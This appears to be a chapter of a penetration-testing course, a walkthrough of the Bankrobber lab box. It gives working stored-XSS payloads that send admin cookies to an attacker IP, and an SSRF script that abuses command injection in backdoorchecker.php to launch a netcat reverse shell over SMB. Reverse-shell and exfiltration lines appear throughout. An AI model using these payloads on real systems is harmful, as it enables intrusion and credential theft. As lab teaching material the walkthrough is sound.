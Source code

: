 # Exercise: Discovering XSS on Bankrobber

An nmap scan reveals that Bankrobber is a Windows box and has HTTP running on ports 80 and 443, SMB on port 445 and MariaDB on port 3306:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- bankrobber.htb -oA nmap/full-tcp
<SNIP>
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp open ssl/http Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after: 2019-11-08T23:48:47
| MD5: a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open mysql MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

 MariaDB is very similar to MySQL and uses the same SQL syntax. After navigating to the URL http://bankrobber.htb we find a Bitcoin trading platform called E-coin.

![Home page of Bankrobber](../.gitbook/assets/0.png)



There is a login function and below that a place to register new accounts. If we register an account with username 'john' and password 'password' and then login, we are taken to a page that allows us to transfer E-coin to \(presumably\) another user using the ID of the user.

![Transfer E-coin function of Bankrobber](../.gitbook/assets/1%20%283%29.png)



If we right click on the page and select Inspect Element to go into the developer tools of the browser, we can navigate to the Storage tab and look at the Cookies that have been set. The cookies are:

```text
id: 3
password: cGFzc3dvcmQ%3D
username: am9obg%3D%3D
```

The username and password cookies are simply the Base64 encoded versions of "john" and "password" which you can verify for yourself. We can see that the id of the user is 3 and so it suggests that there are at least 2 other users \(1 and 2\) on the system.

If we submit a transaction by entering 100 as the amount, 2 as the id and a comment of "test", a popup reports "Transfer on hold. An admin will review it within a minute. After that he will decide whether the transaction will be dropped or not.".

This suggests that a person will be reviewing the transfer and so anything we put in the comment field is likely to be rendered when the admin views it. This makes the comment field a candidate for cross-site scripting. To test this, let us start a Python web server on our box:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
```

We can then create a new transaction and put the following HTML into the comment field:

```javascript
<img src=http://10.10.14.29/img.jpg />
```

This eventually hits the Python web server, and we get the request:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.70.254 - - [25/Feb/2021 10:38:08] code 404, message File not found
10.129.70.254 - - [25/Feb/2021 10:38:08] "GET /img.jpg HTTP/1.1" 404 -
```

So we know that XSS works. The first thing we can do is to steal the administrator's cookies. We know that the cookies used on the site simply consist of the username and password Base64 encoded. To get them we can use the JavaScript function document.cookie\(\) in the following way:

```javascript
<img src=x onerror=this.src="http://10.10.14.135/?c="+document.cookie />
```

This returns the base64 for both username and password to be "admin" and "Hopelessromantic":

```text
10.129.70.254 - - <SNIP> "GET /?c=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1" 200 -
```

After doing the SQL Injection to read source code \(see later in the SQL injection section\), you discover a php file called backdoorchecker.php that will execute a "dir" command supplied as POST parameter. However, the check only tests if the first three characters are equal to "dir". By adding a "\|" after "dir" you can add any other Windows command. The file backdoorchecker.php also checks that the request came from the same machine checking that the "REMOTE\_ADDR" is equal to "::1" the IPv6 localhost address.

To exploit backdoorchecker.php, you can use the XSS to do an SSRF attack. To validate that this will work, you will write a JavaScript file hosted from our machine and test a "ping" command. Writing a script attack.js as follows:

```javascript
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | ping -n 5 10.10.14.29";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials=true;
xhr.send(params);
```

To check that the ping is being sent, you can start tcpdump to collect the ping packets which are of the type ICMP:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

To initiate the XSS you can use the script tag instead of the img tag. This will fetch and execute the script attack.js:

```javascript
<script src="http://10.10.14.135/attack.js"></script>
```

Once the script is fetched from the server, you should see tcpdump reporting the pings being sent to our box:

```bash
12:26:08.465546 IP bankrobber.htb > 10.10.14.135: ICMP echo request, id 1, seq 1, length 40
12:26:08.465571 IP 10.10.14.135 > bankrobber.htb: ICMP echo reply, id 1, seq 1, length 40
12:26:08.465586 IP bankrobber.htb > 10.10.14.135: ICMP echo request, id 1, seq 2, length 40
12:26:08.465592 IP 10.10.14.135 > bankrobber.htb: ICMP echo reply, id 1, seq 2, length 40
<SNIP>
```

We haven't dealt with exploitation and how to get access to an interactive session on a remote box, however we will quickly get a "reverse shell" on the Bankrobber box using Netcat. Netcat for windows can be downloaded from https://eternallybored.org/misc/netcat/. Take a copy of the nc64.exe and rename as nc.exe in your working directory.

As you are targeting a Windows box, you can provide access to netcat via SMB using a tool smbserver.py which is part of the Impacket tools. 

{% hint style="info" %}
To install Impacket in the /opt directory, you can use:

 `git clone https://github.com/SecureAuthCorp/impacket.git`
{% endhint %}

You can then run smbserver.py directly from /opt/impacket/examples/smbserver.py

 \(https://github.com/SecureAuthCorp/impacket\). To share a directory using smbserver you use the syntax:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $sudo /opt/impacket/examples/smbserver.py share $(pwd) -smb2support
```

We can then modify attack.js to the following:

```javascript
var xhr = new XMLHttpRequest();
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd=dir | \\\\10.10.14.135\\share\\nc.exe 10.10.14.135 6001 -e cmd.exe";
xhr.open("POST", url);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.withCredentials=true;
xhr.send(params);
```

We would start the webserver to serve the JavaScript file and netcat listener to receive the incoming connection for the reverse shell:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Bankrobber]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.135] from (UNKNOWN) [10.129.103.158] 49736
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.
C:\xampp\htdocs\admin>whoami
whoami
bankrobber\cortin
```

This is not the end of the box, we have a reverse shell as the user cortin but the next part is privilege escalation which involves a buffer overflow, something we will deal with in Chapter 6.













